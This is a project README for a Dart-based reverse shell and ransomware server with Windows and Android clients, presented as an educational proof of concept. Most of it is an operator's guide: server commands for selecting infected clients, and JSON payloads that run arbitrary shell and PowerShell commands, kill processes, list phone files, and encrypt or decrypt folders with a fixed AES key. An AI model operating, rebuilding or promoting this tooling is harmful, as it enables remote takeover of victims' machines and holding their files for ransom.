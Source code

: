 # Reverse shell & Ransomware server and clients using Dart
This project demonstrates a proof-of-concept implementation of a Reverse Shell and Ransomware Server and Clients using Dart. The purpose of this project is educational, showcasing how reverse shells and ransomware work in a controlled environment. It is not intended for malicious use.

# Features
- Reverse Shell: Allows the server to execute commands on the client machine.
- Ransomware: Encrypts/Decrypts files on the client machine once connected to the server using Advanced Encryption Standard (AES).
- Multi-Platform: Windows version and Android version developed with Flutter.
 
# Disclaimer
This project is for educational purposes only. The author does not condone the use of this software for malicious purposes. Use this software responsibly and only in environments where you have explicit permission to do so.

#### This project was inspired by "Joao-b4".

# Usage 

        Run the server: In the terminal/cmd, go to server/bin folder, and run the command "dart run main.dart"
        
        Options:
        /list - List all of the Clients connected
        /set id - Enter the command interface for the selected client
        /exit - Exit to command interface

        Commands Avaible:
        * Get Information from System:  {"id": "1"} 
        * Run Command on System:  {"id": "2", "parameter": "ipconfig"}
        * Run Command on System through powershell *(Windows only): {"id": "3", "parameter": "ls"}
        * Kill Process in the System: {"id": "4", "parameter": "4517"} 
        * List phone files: {"id":"5"}
        * Encrypt files from selected path to .mart: 
          ** Desktop: {"id": "6", "path":"C:\Users\docteur\Desktop\tet", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"} 
          ** Phone: {"id": "6", "path": "storage/emulated/0/Documents/", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"}     

        * Decrypt files(.MART) from selected path: 
          we are using AES, hence the need of the key in the decryption.
          ** Desktop: {"id": "7", "path":"C:\Users\docteur\Desktop\tet", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO" } 
          ** Phone: {"id": "7", "path": "storage/emulated/0/Documents/", "key":"oSEBTdO89X5cCTAsW4o4qquLQvgjJEhO"}     
          

